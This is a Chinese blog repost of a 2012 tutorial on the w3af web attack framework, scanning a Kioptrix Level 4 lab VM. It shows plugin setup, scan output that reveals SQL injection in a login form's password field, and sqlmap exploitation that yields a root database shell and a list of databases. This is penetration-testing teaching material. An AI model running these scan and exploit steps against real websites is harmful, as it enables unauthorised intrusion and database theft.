 ```yaml
---
title: "w3af 简单使用教程"
date: 2012-08-25T21:36:30+08:00
lastmod: 2012-08-25T21:37:30+08:00
keywords: [w3af 简单使用教程]
description: "w3af 简单使用教程"
categories: [Misc]

---
```


本文为 2012 年在 [FreeBuf](https://www.freebuf.com/ "FreeBuf") 发表的文章，原地址为：[w3af 简单使用教程](https://www.freebuf.com/articles/5472.html "w3af 简单使用教程")。以下内容均无修改，借此来缅怀过去的岁月。

w3af是一个Web应用程序攻击和检查框架.该项目已超过130个插件,其中包括检查网站爬虫,SQL注入(SQL Injection),跨站(XSS),本地文件包含(LFI),远程文件包含(RFI)等.该项目的目标是要建立一个框架,以寻找和开发Web应用安全漏洞,所以很容易使用和扩展.

<!--more-->

## 0×00 概述

在BackTrack5R3下使用w3af测试Kioptrix Level 4的SQL注入漏洞.

## 0×01 简介

w3af是一个Web应用程序攻击和检查框架.该项目已超过130个插件,其中包括检查网站爬虫,SQL注入(SQL Injection),跨站(XSS),本地文件包含(LFI),远程文件包含(RFI)等.该项目的目标是要建立一个框架,以寻找和开发Web应用安全漏洞,所以很容易使用和扩展.

## 0×02 安装

```shell
root@bt:~# apt-get install w3af
```

## 0×03 启动

```shell
root@bt:~# cd /pentest/web/w3af/
root@bt:/pentest/web/w3af# ./w3af_console
```

## 0×04 漏洞扫描配置

```text
w3af>>> plugins
//进入插件模块
w3af/plugins>>> list discovery 
//列出所有用于发现的插件
w3af/plugins>>> discovery findBackdoor phpinfo webSpider 
//启用findBackdoor phpinfo webSpider这三个插件
w3af/plugins>>> list audit 
//列出所有用于漏洞的插件
w3af/plugins>>> audit blindSqli fileUpload osCommanding sqli xss 
//启用blindSqli fileUpload osCommanding sqli xss这五个插件
w3af/plugins>>> back
//返回主模块
w3af>>> target
//进入配置目标的模块
w3af/config:target>>> set target http://192.168.244.132/
//把目标设置为http://192.168.244.132/
w3af/config:target>>> back
//返回主模块
```

## 0×05 漏洞扫描

```text
w3af>>> start
```

```text
---
New URL found by phpinfo plugin: http://192.168.244.132/
New URL found by phpinfo plugin: http://192.168.244.132/checklogin.php
New URL found by phpinfo plugin: http://192.168.244.132/index.php
New URL found by webSpider plugin: http://192.168.244.132/
New URL found by webSpider plugin: http://192.168.244.132/checklogin.php
New URL found by webSpider plugin: http://192.168.244.132/index.php
Found 3 URLs and 8 different points of injection.
The list of URLs is:
- http://192.168.244.132/index.php
- http://192.168.244.132/checklogin.php
- http://192.168.244.132/
The list of fuzzable requests is:
- http://192.168.244.132/ | Method: GET
- http://192.168.244.132/ | Method: GET | Parameters: (mode="phpinfo")
- http://192.168.244.132/ | Method: GET | Parameters: (view="phpinfo")
- http://192.168.244.132/checklogin.php | Method: GET
- http://192.168.244.132/checklogin.php | Method: POST | Parameters: (myusername="", mypassword="")
- http://192.168.244.132/index.php | Method: GET
- http://192.168.244.132/index.php | Method: GET | Parameters: (mode="phpinfo")
- http://192.168.244.132/index.php | Method: GET | Parameters: (view="phpinfo")
Blind SQL injection was found at: "http://192.168.244.132/checklogin.php", using HTTP method POST. The injectable parameter is: "mypassword". This vulnerability was found in the requests with ids 309 to 310.
A SQL error was found in the response supplied by the web application, the error is (only a fragment is shown): "supplied argument is not a valid MySQL". The error was found on response with id 989.
A SQL error was found in the response supplied by the web application, the error is (only a fragment is shown): "mysql_". The error was found on response with id 989.
SQL injection in a MySQL database was found at: "http://192.168.244.132/checklogin.php", using HTTP method POST. The sent post-data was: "myusername=John&Submit=Login&mypassword=d'z"0". The modified parameter was "mypassword". This vulnerability was found in the request with id 989.
Scan finished in 19 seconds.
---
//开始扫描
```

## 0×06 漏洞利用配置

```text
w3af>>> exploit 
//进入漏洞利用模块
w3af/exploit>>> list exploit
//列出所有用于漏洞利用的插件
w3af/exploit>>> exploit sqlmap 
//使用sqlmap进行SQL注入漏洞的测试
```

```text
---
Trying to exploit using vulnerability with id: [1010, 1011]. Please wait...
Vulnerability successfully exploited. This is a list of available shells and proxies:
- [0] <sql object ( dbms: "MySQL >= 5.0.0" | ruser: "root@localhost" )>
Please use the interact command to interact with the shell objects.
---
//测试存在SQL注入漏洞
//这里要记住shell objects(这里是0),等一下要用到
0x07 漏洞利用
w3af/exploit>>> interact 0
//interact + shell object就可以利用了

---
Execute "exit" to get out of the remote shell. Commands typed in this menu will be run through the sqlmap shell
w3af/exploit/sqlmap-0>>> 
---
//sqlmap的一个交互式模块

w3af/exploit/sqlmap-0>>> dbs   

---
Available databases:  [3]:
[*] information_schema
[*] members
[*] mysql
---
//成功获得数据库信息
```
